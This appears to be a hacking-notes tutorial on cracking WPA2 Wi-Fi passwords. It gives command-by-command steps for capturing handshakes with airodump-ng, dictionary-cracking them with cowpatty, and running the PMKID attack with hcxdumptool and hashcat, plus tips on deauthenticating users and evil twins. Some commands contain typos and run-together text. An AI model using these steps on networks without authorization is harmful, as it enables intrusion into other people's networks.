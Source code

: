 # Wifi

There are quite a few different security mechanism on wifi. And each of them require a different tactic. This article outlines the different strategies quite well. [http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/](http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/)

This is a great guide to the many different ways to hack wifi.

### Checking what networks are avalible

`sudo iwlist wlan0 scanning` - scans for wifis

### Hacking WPA2-wifis Using airmon-ng and cowpatty

What we are going to to here it basically just to record the 4-way handshake and then run a dictionary attack on it. The good part about this strategy is that you won't have to interfere to much with the network and thereby risk of taking down their wifi. The bad part is that if you run a dictionary attack there is always the possibility that the password just isn't in the list.

1. Start airmon-ng

   * `airmon-ng start wlan0`
   * This puts the network card in monitoring mode.
   * This will create a network interface that you can use to monitor wifi-action. This interface is usually called mon0 or something like that. You see the name when you run the command.

2. Run airodump to see what is passing through the air

   * Now we want to see what access points are available to us. 
   * `airodump-ng -i mon0`
   * This would output something like this:

```
CH 13 ][ Elapsed: 6 s ]

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

E8:DE:27:31:15:EE  -62       40       54    0  11  54e  WPA2 CCMP   PSK  myrouter
A7:B6:68:D4:1D:91  -80        7        0    0  11  54e  WPA2 CCMP   PSK  DKT_D24D81
B4:EE:B4:80:76:72  -84        5        0    0   6  54e  WPA2 CCMP   PSK  arrisNetwork

BSSID       STATION            PWR   Rate    Lost    Frames Probe

E8:DE:27:31:15:EE  D8:A2:5E:8E:41:75  -57    0e- 1    537     14
```

So what is all this?  
`BSSID` - This is the mac-address of the access point.  
`PWR` - Signal strength. The higher \(closer to 0\) the strength the stronger is the signal. In the example above it is myrouter that has the strongest signal.  
`Beacon` - This is kind of like a packet that the AP sends out periodically. The beacon contains information about the network. It contains the SSID, timestamp, beacon interval. If you are curious you can just analyze the beacons in wireshark after you have captured them.  
`#Data` - The number of data-packets that has been sent.  
`#/s` - Number of data-packets per second.  
`CH` - Channel  
`MB` - Maximum speed the AP can handle.  
`ENC` - Encryption type  
`CIPHER` - One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104. Not mandatory, but TKIP is typically used with WPA and CCMP is typically used with WPA2.  
`PSK` - The authentication protocol used. One of MGT \(WPA/WPA2 using a separate authentication server\(RADIUS\)\), SKA \(shared key for WEP\), PSK \(pre-shared key for WPA/WPA2\), or OPN \(open for WEP\).  
`ESSID` - The name of the network

Then we have another section of information.  
`Station` - MAC address of each associated station or stations searching for an AP to connect with. Clients not currently associated with an AP have a BSSID of “\(not associated\)”. So yeah, this basically means that we can see what devices are looking for APs. This can be useful if we want to create an evil twin or something like that.

1. Find the network you want to access.

   * `airodump-ng --bssid A7:B6:68:D4:1D:91 -c 11 -w cowpatty mon0`
   * So this command will record or traffic from the device with that specific MAC-address. -c defines the channel. and `-w cowpatty` means that we are going to save the packet capture with that name. 
     Now we just have to wait for a user to connect to that network. And when he/she does we will record that handshake.
     We know that we have recorded a handshake when this appears
     `CH 11 ][ Elapsed: 19 hours 52 mins ][ 2016-05-19 17:14 ][ WPA handshake: A7:B6:68:D4:1D:91`
     Now we can exit airodump, and we can see that we have a cap-file with the name cowpatty-01.cap. That is our packet-capture, and you can open it and study it in wireshark if you like.

2. Crack the password.

3. Now that we have the handshake recorded we can start to crack it. We can do that by using the program cowpatty.

4. `cowpatty -f /usr/share/wordlists/rockyou.txt -r cowpatty-01.cap -s DKT_D24D81`  
   Then we just hope for the best.

## PMKID

The RSN IE is an optional field that can be found in 802.11 management frames. One of the RSN capabilities is the PMKID.

The PMKID is computed by using HMAC-SHA1 where the key is the PMK and the data part is the concatenation of a fixed string label "PMK Name", the access point's MAC address and the station's MAC address.

Since the PMK is the same as in a regular EAPOL 4-way handshake this is an ideal attacking vector.

We receive all the data we need in the first EAPOL frame from the AP.

```
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```

**Note: **The following method does not change the time in takes to crack the password, it simply makes the method to obtain the password much easier. Further details are in the hashcat link below.

Why Easier:

* No more regular users required - because the attacker directly communicates with the AP \(aka "client-less" attack\)

* No more waiting for a complete 4-way handshake between the regular user and the AP

* No more eventual retransmissions of EAPOL frames \(which can lead to uncrackable results\)

* No more eventual invalid passwords sent by the regular user
* No more lost EAPOL frames when the regular user or the AP is too far away from the attacker
* No more fixing of nonce and replaycounter values required \(resulting in slightly higher speeds\)
* No more special output format \(pcap, hccapx, etc.\) - final data will appear as regular hex encoded stringairmon-ng check kill

1.\) Run hcxdumptool to request the PMKID from the AP and to dump the received frame to a file \(in pcapng format\).

```
/opt/hcxdumptool/hcxdumptool -o Target.pcapng -i wlan0 --filterlist=TargetBSSID.txt --filtermode=2
```

The TargetSSID.txt files contains the MAC addresses \(BSSIDs\) of the target without colons. Also there is an indicator at the bottom of the interface that states "pwned." This will indicate the number of hashes obtained. It is recommended to have this run for at least 10 minutes.

```
/opt/hcxtools/hcxpcaptool -z Target.16800 Target.pcapng
```

2.\) Run hcxpcaptool to convert the captured data from pcapng format to a hash format accepted by hashcat.

```
 ./hcxpcaptool -z  Target.16800 /opt/hcxdumptool/Target.pcapng
```

This takes in the in capture file, parses it and outputs the format \(16800\) in one that hashcat can interpret.

3.\) Run hashcat to crack it.

```
./hashcat -m 16800 Target.16800 -a 3 -w 3 '?l?l?l?l?l?lt!
```

The above is obviously a simplified version as this can be vastly tailored by information obtained from the target

## Example hash

```
2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a
```

The columns are the following \(all hex encoded\):

* PMKID

* MAC AP

* MAC Station

* ESSID

## Further digging

If you want to analyze your pcap for the RSN PMKID, the filter for wirshark is 

```
wlan.rsn.ie.pmkid
```

## More Info / References

Kicking other people off the network to capture handshakes faster:  
[http://www.aircrack-ng.org/doku.php?id=newbie\_guide](http://www.aircrack-ng.org/doku.php?id=newbie_guide)

[http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html](http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html)

[http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/](http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/)

[https://hashcat.net/forum/thread-7717.html](https://hashcat.net/forum/thread-7717.html)

